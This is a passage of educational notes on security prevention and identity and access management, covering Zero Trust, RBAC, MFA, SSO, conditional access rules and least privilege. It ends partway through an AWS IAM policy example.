# Prevention: Identity and Access Management

This section covers the strategic framework and the five specific domains that act as the primary barriers against cyber threats.

$$S = P + D + R$$

$$Security = Prevention + Detection + Response$$

Prevention is the primary method for reducing the attack surface and upholding the CIA Triad:

- **Confidentiality** — Only authorized users can see data (via access control and encryption)
- **Integrity** — Data remains untampered (via digital signatures and hashing)
- **Availability** — Systems are accessible when needed (by preventing DoS attacks)

### Cost Efficiency

Fixing vulnerabilities or stopping attacks early (Shift Left) is exponentially cheaper than remediating them after a breach. For example, fixing a bug in production costs up to 640x more than fixing it during the coding phase.

## Prevention Domains Overview



### Identity and Access Management

Ensures that only authorized users access systems and data, acting as the "new perimeter" in a cloud-first world. Encompasses user provisioning, authentication methods like MFA, and access controls.

### Endpoint Security

Secures devices like laptops, servers, and IoT, preventing malware and unauthorized access. Key practices include unified management, encryption, and patch enforcement.

### Network Security

Segments traffic using firewalls, VPNs, and SASE to isolate threats. Includes DMZ setups and modern cloud-delivered security models.

### Application Security

Integrates protection into the SDLC, using tools like SAST/DAST and DevSecOps to catch vulnerabilities early. Addresses supply chain risks and AI-generated code issues.

### Data Security

Protects sensitive data through encryption, discovery, and compliance with regulations. Includes key management and loss prevention technologies.

> [!NOTE] Prevention Assumes Failure
> While these domains focus on Prevention, the architecture assumes prevention will eventually fail. Therefore, these domains feed telemetry (logs/alerts) into the Detection (SIEM/XDR) and Response (SOAR) systems to complete the security formula.


## Identity and Access Management (IAM)

### Why IAM Is the "New Perimeter"

Traditional security relied on **network boundaries**: build a strong firewall perimeter, and assume anyone inside the network is trusted. This "castle-and-moat" model has collapsed due to:

**Modern Reality:**
- **Cloud Migration:** Applications and data now live outside your network (AWS, Azure, SaaS)
- **Mobile Workforce:** Employees work from coffee shops, homes, airports—not inside the corporate network
- **BYOD (Bring Your Own Device):** Personal devices access corporate resources
- **Third-Party Access:** Partners, contractors, vendors need system access
- **Insider Threats:** 34% of breaches involve internal actors (Verizon DBIR 2023)

**The Shift:**



**Zero Trust Philosophy:**
> [!IMPORTANT] Never Trust, Always Verify
> "Don't trust anyone, anywhere, on any device, until you've verified their identity and authorization."
> 
> IAM enables Zero Trust by:
> - Verifying every access request (not just once at login)
> - Enforcing least privilege (minimal access needed)
> - Continuously monitoring behavior (detect anomalies)

**Business Value of IAM:**

| Benefit | Business Impact | Example |
|---------|----------------|--------|
| **Operational Efficiency** | Reduce manual access management | Auto-provisioning saves 30 min per new hire (200 hires/year = 100 hours saved) |
| **Compliance** | Avoid fines, pass audits | SOX, GDPR, HIPAA require access controls and audit trails |
| **Security Posture** | Reduce breach risk | 81% of breaches involve stolen credentials (Verizon DBIR) |
| **User Experience** | Improve productivity | SSO reduces password resets (40% of helpdesk tickets) |
| **Cost Reduction** | Lower IT overhead | Password reset costs $70 per incident |

> [!TIP] IAM ROI Calculation
> **Example:**
> - Password reset tickets: 500/month × $70 = $35,000/month
> - SSO + self-service reduces by 60% = $21,000/month savings = **$252,000/year**
> - IAM solution cost: $100,000 (implementation) + $50,000/year (licenses) = **Payback in 8 months**

### Directory Infrastructure

This forms the backbone of IAM systems. Plumbing the directory correctly is critical for success.

#### User Types

Architects must first identify broad user groups (e.g., Employees, Suppliers, Customers) to determine necessary roles.

#### Directories

The storage mechanism for user identities (active directory). A directory consists of:

- **Database** — Storage layer
- **Schema** — Organization of data
- **Protocol** — LDAP (Lightweight Directory Access Protocol) is the standard language for talking to directories

#### Synchronization

While a single "Enterprise Directory" is ideal, most organizations have multiple. Strategies to manage this include:

- **Virtual Directories** — Indexing/pointers to where data lives
- **Meta Directories** — Aggregating and pre-fetching data into a central hub

> [!TIP] Why Multiple Directories Exist
> **The Ideal vs. Reality:** Ideally, an organization would have one central "Enterprise Directory." In reality, they have multiple fragmented directories (silos).
> 
> **The Technical Cause:** This fragmentation occurs because commercial applications often have hardcoded "hooks" into specific database schemas or directory structures. They refuse to communicate with a generic central directory, forcing the IT team to spin up a specific directory just for that application.
> 
> **The Mitigation:** This forces the use of Synchronization tools (Meta-directories or Virtual Directories) to keep user data consistent across these unavoidable silos.

### The Four A's Framework



The Four A's represent the **complete identity lifecycle**—from creating accounts to monitoring their usage. Think of them as the pillars of IAM:

1. **Administration** (Who exists?) — Managing user accounts and roles
2. **Authentication** (Who are you?) — Verifying user identity
3. **Authorization** (What can you do?) — Granting permissions based on identity
4. **Audit** (What did you do?) — Monitoring and logging all activities

> [!NOTE] Why Four A's Matter
> Many organizations focus only on Authentication ("Do we have MFA?") and ignore Administration ("Do we have a process to remove ex-employee accounts?") or Audit ("Can we prove who accessed what?"). All four are equally critical.

#### Administration

**Purpose:** Identity Governance manages the **user lifecycle**—from hire to retire—ensuring the right people have the right access at the right time.

**The Problem Without Governance:**
- **Access Creep:** Employee promoted from Teller → Branch Manager but retains old Teller permissions (violates least privilege)
- **Orphaned Accounts:** Ex-employees still have active credentials (insider threat)
- **Manual Chaos:** IT manually creates accounts in 15+ systems for each new hire (error-prone, slow)
- **Audit Failures:** Can't prove who has access to what (compliance violations)

**The Solution—Identity Governance and Administration (IGA):**

**Core Capabilities:**
- **Automated Provisioning/De-provisioning** — Triggered by HR system (authoritative source)
- **Role-Based Access Control (RBAC)** — Map business roles to IT permissions
- **Workflow Automation** — Route access requests for approval
- **Access Certification** — Periodic reviews to remove unused access
- **Separation of Duties (SoD)** — Prevent conflicting permissions (e.g., can't both create and approve payments)

**The Identity Lifecycle:**



**Role-Based Access Control (RBAC):**

**The Challenge:** Assigning permissions individually for each user is unmanageable.
- Example: Hospital with 5,000 employees and 200 applications
- Without roles: 5,000 × 200 = **1,000,000 individual permission assignments**

**The Solution:** Group permissions into **roles** that align with job functions.

**RBAC Model:**



**Example: Hospital RBAC Matrix:**

| Role | EMR Access | Lab System | Billing System | Pharmacy |
|------|-----------|-----------|---------------|----------|
| **Physician** | Full medical records | Order tests | View charges | Prescribe meds |
| **Nurse** | Limited records | View results | None | Administer meds |
| **Billing Clerk** | Demographics only | None | Full access | None |
| **Pharmacist** | Medication history | None | None | Dispense meds |

**Advanced Concepts:**

**Attribute-Based Access Control (ABAC):**
- Beyond fixed roles, use **dynamic attributes** (department, clearance level, project assignment)
- Example: "Grant access to Project X files IF (employee.department = Engineering) AND (employee.clearance = Top Secret) AND (employee.project = Project X)"

**Just-In-Time (JIT) Access:**
- Grant temporary elevated privileges only when needed
- Example: Developer needs production database access for emergency fix → Request approved for 2 hours → Auto-revoked after

> [!WARNING] Common RBAC Pitfalls
> **Role Explosion:** Creating too many granular roles ("Marketing Manager - West Coast - Q1 Campaign") defeats the purpose. Keep roles broad and use attributes for fine-tuning.
> 
> **Role Overlap:** User assigned multiple conflicting roles ("Developer" + "QA Tester") may violate separation of duties.
> 
> **Stale Roles:** Roles defined years ago no longer match current job functions. Require annual role review.

> [!TIP] Administration Workflows
> **New Hire (Provisioning):**
> - Trigger: Automated feed from the HR System ("Source of Truth")
> - Flow: HR enters employee → Identity System maps to Business Role → System converts to IT Role (entitlements) → Accounts auto-created in downstream directories/applications.
>
> **Modification (Ad-Hoc Request):**
> - Trigger: User needs access to a system outside their standard role (e.g., promotion or special project)
> - Flow: User requests via Self-Service GUI → Routes to manager for workflow approval → If approved, account provisioned
>
> **Termination (De-provisioning):**
> - Trigger: Employee status changes to "Terminated" in HR
> - Flow: System reverses provisioning, "unwrapping" access capabilities
> - Critical: Without centralized system, IT must manually audit every application which is inefficient and dangerous, leaving security gaps.

#### Authentication

**Purpose:** Verifying that users are **who they claim to be** before granting access.

**Why Authentication Is Critical:**
- 81% of breaches involve stolen or weak credentials (Verizon DBIR 2023)
- Passwords alone are insufficient (phishing, brute force, credential stuffing)
- Identity is the **new perimeter**—if attackers bypass authentication, other controls are irrelevant

**The Three Authentication Factors:**

Strong authentication combines multiple independent factors:



**Multi-Factor Authentication (MFA):**

**The Principle:** Combine at least **two different factor types** to mitigate single-factor weaknesses.

**Common MFA Implementations:**

| Method | Factors | User Experience | Security Level | Example |
|--------|---------|----------------|----------------|--------|
| **SMS OTP** | Know (password) + Have (phone) | Text message with code | Low (SIM swapping risk) | Bank sends 6-digit code |
| **Authenticator App** | Know (password) + Have (phone) | Time-based code (TOTP) | Medium | Google Authenticator |
| **Push Notification** | Know (password) + Have (phone) | Approve on mobile app | Medium-High | Microsoft Authenticator |
| **Hardware Token** | Know (password) + Have (token) | Physical USB device | High | YubiKey, Titan Security Key |
| **Biometric + PIN** | Know (PIN) + Are (fingerprint) | Scan finger + enter PIN | High | iPhone unlock |

**Why MFA Works:**

> [!IMPORTANT] MFA Risk Reduction
> Microsoft reports that MFA blocks **99.9% of automated attacks**, even if the password is compromised.
> 
> **Why:** Attackers may steal passwords (phishing, data breaches) but can't simultaneously:
> - Steal your phone (physical possession)
> - Steal your fingerprint (biometric)
> - Intercept push notifications (real-time)

**MFA Weaknesses to Consider:**

**MFA Fatigue Attacks:**
- Attacker floods user with push notifications hoping they approve one by mistake
- Mitigation: Number matching (user must enter code shown on login screen)

**SIM Swapping:**
- Attacker convinces mobile carrier to transfer victim's phone number to attacker's SIM
- Receives SMS codes intended for victim
- Mitigation: Avoid SMS-based MFA; use app-based or hardware tokens

**Phishing-Resistant MFA:**
- **FIDO2/WebAuthn:** Hardware keys use cryptographic challenge-response (can't be phished)
- **Example:** YubiKey requires physical presence + cryptographic proof (attacker can't remotely access)

**Single Sign-On (SSO):**

**The Problem:** Users have accounts on 10+ systems—each with separate passwords.
- **Password Fatigue:** Users reuse weak passwords across systems
- **Helpdesk Burden:** 40% of tickets are password resets
- **Productivity Loss:** Users spend time re-authenticating repeatedly

**The Solution:** Authenticate **once** to a central Identity Provider (IdP), then access all systems without re-entering credentials.

**How SSO Works:**



**SSO Protocols:**

| Protocol | Use Case | How It Works |
|----------|----------|-------------|
| **SAML 2.0** | Enterprise apps (Salesforce, Workday) | XML-based token exchange |
| **OAuth 2.0** | Third-party apps ("Login with Google") | Authorization delegation (not authentication) |
| **OpenID Connect (OIDC)** | Modern apps | OAuth 2.0 + identity layer (JSON tokens) |

**SSO Benefits:**
- **Security:** Centralized authentication = easier to enforce MFA and monitor
- **User Experience:** One login for all apps
- **IT Efficiency:** Centralized de-provisioning (terminate employee once, access revoked everywhere)

**SSO Risks:**

> [!WARNING] Single Point of Failure
> If the IdP is compromised, attackers gain access to **all connected applications**.
> 
> **Mitigations:**
> - Enforce MFA on IdP login
> - Monitor IdP for anomalies (impossible travel, unusual access patterns)
> - Implement conditional access (restrict access from untrusted locations)

**Passwordless Authentication:**

**The Vision:** Eliminate passwords entirely—they're the weakest link.

**Passwordless Methods:**
- **Biometrics + Device:** Face ID / Touch ID ("something you are" + "something you have")
- **FIDO2 Keys:** Hardware token + PIN ("something you have" + "something you know")
- **Magic Links:** Email one-time link ("something you have"—access to email)
- **Push Notifications:** Approve login on registered mobile app

**Example: Microsoft Passwordless:**
1. User enters username (no password)
2. Microsoft sends push to Microsoft Authenticator app
3. User approves with biometric (Face ID)
4. Access granted

**Benefits:**
- **Security:** No password to steal, phish, or brute force
- **User Experience:** Faster login, no password fatigue
- **Cost:** Eliminate password reset overhead

> [!TIP] Passwordless Migration
> Don't force all users to passwordless immediately. Offer as opt-in, measure adoption, then mandate for high-risk roles (admins, executives) first.

#### Authorization

**Purpose:** Determining **what authenticated users are allowed to do** after identity is verified.

**The Distinction:**
- **Authentication:** "Who are you?" (Prove your identity)
- **Authorization:** "What can you do?" (What permissions do you have?)

**Example:**
- Employee authenticates with username + MFA → **Authentication successful**
- System checks: Is this employee allowed to access HR records? → **Authorization check**

**Static vs. Dynamic Authorization:**

**Static Authorization (Traditional):**
- Fixed permissions based on role
- Example: "All Managers can view reports"
- **Problem:** Doesn't consider context (location, time, device, risk)

**Dynamic Authorization (Modern—Risk-Based/Adaptive Access):**
- Permissions adjust based on **real-time risk signals**
- Example: "Manager can view reports, BUT only from corporate network during business hours on managed device"

**How Risk-Based Authorization Works:**



**Risk Factors Considered:**

| Factor | Low Risk Example | High Risk Example | Action |
|--------|------------------|-------------------|--------|
| **Location** | Corporate office | Foreign country user has never visited | Block or require additional auth |
| **Device** | Managed laptop (compliant) | Personal phone (unmanaged) | Restrict access to sensitive data |
| **Time** | 9 AM on weekday | 3 AM on weekend | Flag for review |
| **Behavior** | Normal data access pattern | Download 10,000 files in 10 minutes | Block + alert |
| **Network** | Corporate VPN | Public Wi-Fi | Require MFA step-up |
| **Transaction Value** | $100 wire transfer | $100,000 wire transfer | Require manager approval |

**Real-World Example: Banking Application**

**Scenario: Wire Transfer Authorization**




**Step-Up Authentication:**
- User already logged in (authenticated)
- High-risk action triggers **additional verification** (re-authenticate with MFA)
- Example: Google prompts for password again when changing security settings

**Conditional Access Policies:**

Modern IAM platforms (Okta, Azure AD) allow defining **if-then rules**:

**Policy Examples:**

**Policy 1: Protect Sensitive Apps**
```
IF user accesses "HR System" 
THEN require MFA + compliant device + corporate network
```

**Policy 2: Block Risky Locations**
```
IF user location = High-Risk Country (North Korea, etc.)
THEN block access + alert security team
```

**Policy 3: Limit Personal Devices**
```
IF device = Unmanaged (personal phone)
THEN allow email access ONLY (block sensitive apps)
```

**Policy 4: Impossible Travel**
```
IF user logged in from NYC at 9 AM
   AND user logs in from London at 10 AM (1 hour later)
THEN block (physically impossible) + alert SOC
```

> [!TIP] Conditional Access Best Practices
> **Start with Report-Only Mode:**
> - Enable policies in "audit" mode first (log what would happen, don't enforce)
> - Analyze logs for false positives
> - Refine policies before full enforcement
> 
> **User Communication:**
> - Explain why access was blocked ("You're accessing from a new location. Please verify your identity.")
> - Provide self-service remediation ("Complete MFA to proceed")

**Least Privilege in Authorization:**

**Principle:** Grant users the **minimum permissions** necessary to perform their job.

**How to Implement:**
1. **Default Deny:** Start with zero access, add permissions as needed
2. **Just-In-Time (JIT) Access:** Grant temporary elevated permissions only when required
3. **Regular Reviews:** Quarterly access certification ("Does Bob still need admin rights?")

**Example: Cloud Access (AWS IAM)**

**Bad Practice:**
```json
{
  "Effect": "Allow",
  "Action": "*",
  "Resource": "*"
}
```
(Grants full access to everything—violates least privilege)

**Good Practice:**
```json
{
  "Effect": "Allow",
  "Action": ["s3:GetObject", "s3:PutObject"],
